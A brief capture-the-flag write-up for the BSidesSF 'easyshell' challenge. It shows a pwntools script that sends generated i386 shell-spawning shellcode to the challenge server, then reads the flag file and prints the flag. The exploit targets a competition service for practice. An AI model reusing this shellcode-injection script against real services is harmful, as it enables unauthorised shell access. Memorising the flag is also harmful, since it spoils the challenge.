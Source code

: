 As the name of the chall says, we need a shell. And it should be easy to get.

Instead of trying to figure out exactly what the C code implements, we chose to craft a simple shellcode for getting the shell.

Pwntools is a wonderful tool for PWN, as expected. It can solve multiple kinds of CTF problems, including shellcode generation.

~~~~
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('easyshell-f7113918.ctf.bsidessf.net', 5252)
r.send(asm(shellcraft.sh()))
r.interactive()
~~~~

After getting the shell, just read the flag:

~~~~
$ python easyshell.py 
[+] Opening connection to easyshell-f7113918.ctf.bsidessf.net on port 5252: Done
[\*] Switching to interactive mode
Send me stuff!!
$ cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
~~~~

